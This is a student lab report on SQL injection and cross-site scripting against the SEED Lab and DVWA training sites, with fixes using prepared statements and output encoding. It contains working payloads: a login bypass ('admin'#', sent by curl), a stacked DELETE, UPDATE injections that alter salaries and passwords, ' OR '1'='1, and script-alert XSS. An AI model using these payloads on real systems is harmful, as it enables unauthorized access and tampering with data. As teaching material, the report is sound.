<!-- markdownlint-disable MD033 MD041 -->
<p align="center" width="100%">
    
</p>

# TEB2093 Computer Security - Lab 02

## Members

- Ammar Farhan Bin Mohamad Rizam (22006911)
- Amisya Fareezan Binti Mohd Fadhil (22007082)
- Ahmad Anas Bin Azhar (22005996)
- Muhammad Hanis Afifi Bin Azmi (22001602)

## SQL Injection

### Task 1

#### Task 1.1

Login to MySQL console:

```bash
mysql -u root -pseedubuntu
```

**Output:**



#### Task 1.2

Load `Users` database:

```sql
use Users;
```

**Output:**



#### Task 1.3

Show tables in `Users` database:

```sql
show tables;
```

**Output:**



#### Task 1.4

Print all information of `Alice`:

```sql
SELECT * FROM credential WHERE Name = 'Alice';
```

**Output:**



### Task 2

#### Task 2.1

SQL Injection Attack from webpage:



**Result:**



**Explanation:**

The server takes input from the user to form the following SQL query:

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, password
FROM credential
WHERE Name = '$input_uname' and Password = '$hashed_pwd';
```

By setting `$input_uname` to `admin'#`, the following SQL query is formed:

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, password
FROM credential
WHERE Name = 'admin'#' and Password = '<unknown>';
```

Everything after `'admin'` is ignored as it is commented out.

At first, we tried `--` SQL comment. However, that led to an error on the backend. Then, we explored multiple ways to write a comment in PHP, and found that PHP supports `//`, `#`, and `/* */` comments. We tried each one of them and found that `#` comment method worked.

#### Task 2.2

SQL Injection Attack from command line:

```bash
curl http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%23&Password=
```

**Result:**

```html
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

**Explanation:**

From [Task 2.1](#task-21), we realized that the input is passed as URL parameters to `/unsafe_home.php`. Based on this, we can use curl to send a `GET` HTTP request with the input similar to [Task 2.1](#task-21).

For `username`, we need to URL encode `admin'#`. The result is `admin%27%23`. Then for `password`, we can just leave it blank. After putting all these together, the URL formed is `http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%23&Password=`.

#### Task 2.3

Append a new SQL statement to delete a record from the database:

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, password
FROM credential
WHERE Name = 'admin'; DELETE FROM credential WHERE Name = 'Samy';#' and Password = '$hashed_pwd';
```



**Result:**



**Explanation:**

In theory, our malicious payload—`admin'; DELETE FROM credential WHERE Name = 'Samy';#`—should work. However, if we inspect the backend code, the query is being executed using:

```php
$conn->query($sql)
```

`mysqli::query()` does not support multiple SQL statements. Only `mysqli::multi_query()` supports multiple statements separated by `;`. Hence, appending other SQL statements in the login page can't be performed without having direct access or remote access to the server to change the code.

To test out this theory, we modified the code from:

```php
$conn->query($sql)
```

to:

```php
$conn->multi_query($sql)
```

Then, we sent the same login request with our malicious payload, and found that `Samy` was deleted.








Based on this test, our theory was proven correct.

### Task 3

#### Task 3.1

Modify your own salary (as Alice):




**Result:**


**Explanation:**

The form executes the following SQL statement to the database:

```sql
UPDATE credential
SET nickname='$input_nickname',
    email='$input_email',
    address='$input_address',
    PhoneNumber='$input_phonenumber'
WHERE ID=$id;
```

In the form, we can pass `', Salary=999999, SSN = '10211002` to form the following SQL statement:

```sql
UPDATE credential
SET nickname='<unknown>',
    email='<unknown>',
    address='<unknown>',
    PhoneNumber='', Salary=999999, SSN = '10211002'
WHERE ID=<unknown>;
```

Even though we are not truly modifying the value of SSN, we still pass the value in the input to ensure that the `'` is closed before `WHERE` clause.

#### Task 3.2

Modify your boss' salary (as Alice):





**Result:**



**Explanation:**

The form executes the following SQL statement to the database:

```sql
UPDATE credential SET nickname='$input_nickname', email='$input_email', address='$input_address', PhoneNumber='$input_phonenumber' WHERE ID=$id;
```

In the form, we can pass `', Salary=Salary-1 WHERE Name='Boby'#` to form the following SQL statement:

```sql
UPDATE credential SET nickname='<unknown>', email='<unknown>', address='<unknown>', PhoneNumber='', Salary=Salary-1 WHERE Name='Boby'#' WHERE ID=<unknown>;
```

We have to perform our own `WHERE` clause because as Alice, we do not know what Boby's ID is. The side effect of `WHERE Name='Boby'` is it will decrement all other employees' salary by 1 if their name is also `Boby`. However, based on the information that Alice might have, that is the best solution that she could misuse despite the side effects.

#### Task 3.3

Modify Boby's password (as Alice):



```txt
username: boby
new password: iamacorporateslave
```


**Result:**






**Explanation:**

The form executes the following SQL statement to the database:

```sql
UPDATE credential SET nickname='$input_nickname', email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;
```

In the form, we can pass `' WHERE Name='Boby'#` to form the following SQL statement:

```sql
UPDATE credential SET nickname='<unknown>', email='<unknown>', address='<unknown>', Password='$hashed_pwd', PhoneNumber='' WHERE Name='Boby'#' WHERE ID=<unknown>;
```

The `$hashed_pwd` is calculated using SHA1 based on the input given in password field.

### Task 4

#### Fixing Login

**Old code snippet:**

```php
/* some code */

// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
    /* some code */
}

/* some code */

if ($id != "") {
    // If id exists that means user exists and is successfully authenticated
    drawLayout($id, $name, $eid, $salary, $birth, $ssn, $pwd, $nickname, $email, $address, $phoneNumber);
} else {
    // User authentication failed
    echo "</div>";
    echo "</nav>";
    echo "<div class='container text-center'>";
    echo "<div class='alert alert-danger'>";
    echo "The account information your provide does not exist.";
    echo "<br>";
    echo "</div>";
    echo "<a href='index.html'>Go back</a>";
    echo "</div>";
    return;
}
// close the sql connection
$conn->close();

/* some code */
```

**New code snippet:**

```php
/* some code */

// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
FROM credential
WHERE name= ? and Password= ?");
$sql->bind_param("ss", $input_uname, $hashed_pwd);
$sql->execute();
$sql->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
$sql->fetch();
$sql->close();

if ($id != "") {
    // If id exists that means user exists and is successfully authenticated
    drawLayout($id, $name, $eid, $salary, $birth, $ssn, $pwd, $nickname, $email, $address, $phoneNumber);
} else {
    // User authentication failed
    echo "</div>";
    echo "</nav>";
    echo "<div class='container text-center'>";
    echo "<div class='alert alert-danger'>";
    echo "The account information your provide does not exist.";
    echo "<br>";
    echo "</div>";
    echo "<a href='index.html'>Go back</a>";
    echo "</div>";
    return;
}

// close the sql connection
$conn->close();

/* some code */
```

**Result:**

Malicious payload: `alice'#`.





#### Fixing Edit Profile

**Old code snippet:**

```php
/* some code */

$conn = getDB();

/* some code */

if ($input_pwd != '') {
    // In case password field is not empty.
    $hashed_pwd = sha1($input_pwd);
    // Update the password stored in the session.
    $_SESSION['pwd'] = $hashed_pwd;
    $sql = "UPDATE credential SET nickname='$input_nickname', email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' where ID=$id;";
} else {
    // if passowrd field is empty.
    $sql = "UPDATE credential SET nickname='$input_nickname', email='$input_email', address='$input_address', PhoneNumber='$input_phonenumber' where ID=$id;";
}

$conn->query($sql);
$conn->close();

/* some code */
```

**New code snippet:**

```php
/* some code */

$conn = getDB();

/* some code */

if ($input_pwd != '') {
    // In case password field is not empty.
    $hashed_pwd = sha1($input_pwd);
    // Update the password stored in the session.
    $_SESSION['pwd'] = $hashed_pwd;
    $sql = $conn->prepare("UPDATE credential SET nickname= ?, email= ?, address= ?, Password= ?, PhoneNumber= ? where ID= $id;");
    $sql->bind_param("sssss", $input_nickname, $input_email, $input_address, $hashed_pwd, $input_phonenumber);
    $sql->execute();
    $sql->close();
} else {
    // if password field is empty.
    $sql = $conn->prepare("UPDATE credential SET nickname= ?,email= ?,address= ?,PhoneNumber= ? where ID= $id;");
    $sql->bind_param("ssss", $input_nickname, $input_email, $input_address, $input_phonenumber);
    $sql->execute();
    $sql->close();
}

$conn->close();

/* some code */
```

**Result:**

Malicious payload: `', Salary=30000, SSN='10213352`.





## Web Security

### B. SQL Injection

1. Capture a screenshot of the results displaied on the page after performing the SQL Injection `'OR'1'='1`.

    

2. Explain how the SQL Injection was able to occur.

    In the source code of DVWA, the input ID is directly placed into the SQL statement.

    ```php
    /* some code */

    $id = $_REQUEST['id'];

    /* some code */

    $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

    $db_connection->query($query); // slightly modified to increase understanding

    /* some code */
    ```

    When we passed in `' OR '1'='1`, we formed the query:

    ```sql
    SELECT first_name, last_name FROM users WHERE user_id = ''OR'1'='1';
    ```

    The `WHERE` clause will always be true, hence, all rows are fetched in `users` table are fetched.

3. Suggest one countermeasure or preventive measure to mitigate this vulnerability.

    We can use **prepared statements**. This will ensure that the boundary between SQL code and data is respected. Based on the code snippet from `1` above, we can change it to:

    ```php
    /* some code */

    $id = $_REQUEST['id'];

    /* some code */

    $query = $db_connection->prepare("SELECT first_name, last_name FROM users WHERE user_id = ? LIMIT 1;");
    $query->bindParam('i', $id);
    $query->execute();
    $row = $query->fetch();

    /* some code */
    ```

### C. Cross-site Scripting (XSS)

#### XSS (Reflected) on DVWA







DVWA vulnerable code snippet:

```php
/* some code */

header ("X-XSS-Protection: 0");

/* some code */

$html .= '<pre>Hello ' . $_GET['name'] . '</pre>';

/* some code */
```

When we submit a malicious JavaScript code, it is appended into the HTML content in the response, and the browser will see it as an inline JavaScript code that should be executed.

Nowadays, we have preventative methods such as HTTP header `X-XSS-Protection` enabled by default. Hence, to purposely make the web app vulnerable, the header needs to be set to `0`.

#### Experiment 1: Stored XSS



Malicious JavaScript code gets executed even on subsequent visit to the page:



```txt
$ cat comments.txt
Normal comment :D
<script>alert('XSS')</script>
```

This is because the malicious code is stored in the database, in this case, it is `comments.txt`. Then, on every page visit, the comments are loaded from the database/`comments.txt`, which then gets appended into the response HTML content.

This causes the code to be executed on all users that visit the page.

Stored XSS is very dangerous as a bad actor may upload malicious code to be executed on other users' browser, enabling cookie steals, session hijacking, and more.

To prevent malicious code from being executed by the client browser, we can change the source code from displaying the special characters as is, to the equivalent HTML URL encoded characters.

Old code snippet:

```php
echo '<p>' . $comment . '</p>';
```

Old response:

```html
<p><script>alert('XSS')</script></p>
```

New code snippet:

```php
echo '<p>' . htmlspecialchars($comment, ENT_QUOTES, 'UTF-8') .'</p>';
```

New response:

```html
<p>&lt;script&gt;alert(&#039;XSS&#039;)&lt;/script&gt;</p>
```

This prevents the browser from intepreting the malicious code as inline JavaScript code that needs to be executed.

#### Experiment 2: Reflected XSS





In reflected XSS, a bad actor can arbitrarily execute malicious code on the client side. This may cause information that is not meant to be displayed to the user being exposed.

Old code snippet:

```php
echo "<p>Results for: " . $_GET['search'] . "</p>";
```

Old response:

```html
<p>Results for: <script>alert('Reflected XSS')</script></p>
```

New code snippet:

```php
echo "<p>Results for: " . htmlspecialchars($_GET['search'], ENT_QUOTES, 'UTF-8') . "</p>";
```

New response:

```html
<p>Results for: &lt;script&gt;alert(&#039;Reflected XSS&#039;)&lt;/script&gt;</p>
```

Browser will not parse the malicious input as code, preventing XSS from occuring.

#### Experiment 3: DOM-based XSS

This particular experiment is impossible as URLs are automatically encoded to make it into a valid URL.

For example:

```txt
http://localhost/dom_xss.html?name=alert('DOM XSS');</script>
```

gets encoded to:

```txt
http://localhost/dom_xss.html?name=%3Cscript%3Ealert(%27DOM%20XSS%27);%3C/script%3E
```

When the URL parameter is being read by the client-side JavaScript code, the encoded value is read.

Even though the experiment is supposed to demonstrate that malicious code can be inserted into the DOM, a different method should be used instead of URL parameters.

Instead of using URL parameters, we can use an input box to take malicious input, and inserting it in the DOM element.

With that said, no mitigation methods are needed for this particular code despite the instructions saying that we should replace the special characters to HTML-encoded representation (essentially replicating `htmlspecialchars` on client-side and using JavaScript).

### Extra Discussion

1. Choose ONE (1) of the OWASP TOP 10 Web Vulnerabilities besides SQLI and XSS.
2. Explain the vulnerability (the mechanism).
3. Discuss the effect or impact.
4. Propose the countermeasure or preventive measure to mitigate this vulnerability.
